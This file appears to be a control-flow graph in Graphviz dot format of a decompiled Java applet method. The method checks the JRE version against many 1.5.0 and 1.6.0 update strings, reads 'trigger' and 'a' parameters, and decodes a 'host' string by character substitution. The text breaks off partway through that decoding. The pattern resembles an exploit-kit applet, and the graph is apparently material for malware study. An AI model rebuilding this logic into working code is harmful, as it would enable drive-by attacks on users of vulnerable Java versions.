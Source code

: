 digraph "" {
    "r0 := @this: a"
    "push \"java.version\""
    "r0 := @this: a"->"push \"java.version\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r1"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "push \"trigger\""
    "load.r r0"->"push \"trigger\"";
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"
    "push \"trigger\""->"virtualinvoke <a: java.lang.String getParameter(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "load.r r1"
    "store.r r2"->"load.r r1";
    "push \"1.5.0\""
    "load.r r1"->"push \"1.5.0\"";
    "ifcmpeq.r push 0"
    "push \"1.5.0\""->"ifcmpeq.r push 0";
    "ifcmpeq.r push 0"->"load.r r1";
    "push \"1.5.0_01\""
    "load.r r1"->"push \"1.5.0_01\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 0"
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_02\""
    "load.r r1"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_03\""
    "load.r r1"->"push \"1.5.0_03\"";
    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_04\""
    "load.r r1"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_05\""
    "load.r r1"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_06\""
    "load.r r1"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_07\""
    "load.r r1"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_08\""
    "load.r r1"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_09\""
    "load.r r1"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_10\""
    "load.r r1"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_11\""
    "load.r r1"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_12\""
    "load.r r1"->"push \"1.5.0_12\"";
    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_13\""
    "load.r r1"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_14\""
    "load.r r1"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_15\""
    "load.r r1"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_16\""
    "load.r r1"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_17\""
    "load.r r1"->"push \"1.5.0_17\"";
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_18\""
    "load.r r1"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_19\""
    "load.r r1"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_20\""
    "load.r r1"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_21\""
    "load.r r1"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_22\""
    "load.r r1"->"push \"1.5.0_22\"";
    "push \"1.5.0_22\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.5.0_23\""
    "load.r r1"->"push \"1.5.0_23\"";
    "push \"1.5.0_23\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0\""
    "load.r r1"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r push 0";
    "ifcmpeq.r push 0"->"load.r r1";
    "push \"1.6.0_01\""
    "load.r r1"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_02\""
    "load.r r1"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_03\""
    "load.r r1"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_04\""
    "load.r r1"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_05\""
    "load.r r1"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_06\""
    "load.r r1"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_07\""
    "load.r r1"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_08\""
    "load.r r1"->"push \"1.6.0_08\"";
    "push \"1.6.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_09\""
    "load.r r1"->"push \"1.6.0_09\"";
    "push \"1.6.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_10\""
    "load.r r1"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_11\""
    "load.r r1"->"push \"1.6.0_11\"";
    "push \"1.6.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_12\""
    "load.r r1"->"push \"1.6.0_12\"";
    "push \"1.6.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_13\""
    "load.r r1"->"push \"1.6.0_13\"";
    "push \"1.6.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_14\""
    "load.r r1"->"push \"1.6.0_14\"";
    "push \"1.6.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_15\""
    "load.r r1"->"push \"1.6.0_15\"";
    "push \"1.6.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_16\""
    "load.r r1"->"push \"1.6.0_16\"";
    "push \"1.6.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_17\""
    "load.r r1"->"push \"1.6.0_17\"";
    "push \"1.6.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"load.r r1";
    "push \"1.6.0_18\""
    "load.r r1"->"push \"1.6.0_18\"";
    "push \"1.6.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r2"
    "push -1"->"ifcmpeq.i load.r r2";
    "push 0"
    "ifcmpeq.i load.r r2"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 1"
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "push \"a\""
    "load.r r0"->"push \"a\"";
    "push \"a\""->"virtualinvoke <a: java.lang.String getParameter(java.lang.String)>";
    "staticput <a: java.lang.String host>"
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"->"staticput <a: java.lang.String host>";
    "new java.lang.StringBuilder"
    "staticput <a: java.lang.String host>"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "staticget <a: java.lang.String host>"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"staticget <a: java.lang.String host>";
    "push \"F\""
    "staticget <a: java.lang.String host>"->"push \"F\"";
    "push \"F\""->"push \"a\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"a\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"#\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"#\"";
    "push \"b\""
    "push \"#\""->"push \"b\"";
    "push \"b\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"V\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"V\"";
    "push \"c\""
    "push \"V\""->"push \"c\"";
    "push \"c\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"D\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"D\"";
    "push \"d\""
    "push \"D\""->"push \"d\"";
    "push \"d\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"@\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"@\"";
    "push \"e\""
    "push \"@\""->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Y\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Y\"";
    "push \"f\""
    "push \"Y\""->"push \"f\"";
    "push \"f\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"C\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"C\"";
    "push \"g\""
    "push \"C\""->"push \"g\"";
    "push \"g\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"R\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"R\"";
    "push \"h\""
    "push \"R\""->"push \"h\"";
    "push \"h\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \";\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \";\"";
    "push \"i\""
    "push \";\""->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"L\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"L\"";
    "push \"j\""
    "push \"L\""->"push \"j\"";
    "push \"j\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"K\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"K\"";
    "push \"-\""
    "push \"K\""->"push \"-\"";
    "push \"-\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"U\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"U\"";
    "push \"k\""
    "push \"U\""->"push \"k\"";
    "push \"k\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"^\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"^\"";
    "push \"l\""
    "push \"^\""->"push \"l\"";
    "push \"l\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Z\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Z\"";
    "push \"m\""
    "push \"Z\""->"push \"m\"";
    "push \"m\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"B\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"B\"";
    "push \"n\""
    "push \"B\""->"push \"n\"";
    "push \"n\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Q\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Q\"";
    "push \"o\""
    "push \"Q\""->"push \"o\"";
    "push \"o\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"=\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"=\"";
    "push \"p\""
    "push \"=\""->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"&\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"&\"";
    "push \"q\""
    "push \"&\""->"push \"q\"";
    "push \"q\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"M\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"M\"";
    "push \"r\""
    "push \"M\""->"push \"r\"";
    "push \"r\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"G\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"G\"";
    "push \"s\""
    "push \"G\""->"push \"s\"";
    "push \"s\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"S\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"S\"";
    "push \"t\""
    "push \"S\""->"push \"t\"";
    "push \"t\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"!\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"!\"";
    "push \"u\""
    "push \"!\""->"push \"u\"";
    "push \"u\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"W\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"W\"";
    "push \"v\""
    "push \"W\""->"push \"v\"";
    "push \"v\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"%\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"%\"";
    "push \"w\""
    "push \"%\""->"push \"w\"";
    "push \"w\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"H\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"H\"";
    "push \"x\""
    "push \"H\""->"push \"x\"";
    "push \"x\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"P\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"P\"";
    "push \"y\""
    "push \"P\""->"push \"y\"";
    "push \"y\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"?\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"?\"";
    "push \"z\""
    "push \"?\""->"push \"z\"";
    "push \"z\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"T\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"T\"";
    "push \"/\""
    "push \"T\""->"push \"/\"";
    "push \"/\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"I\""
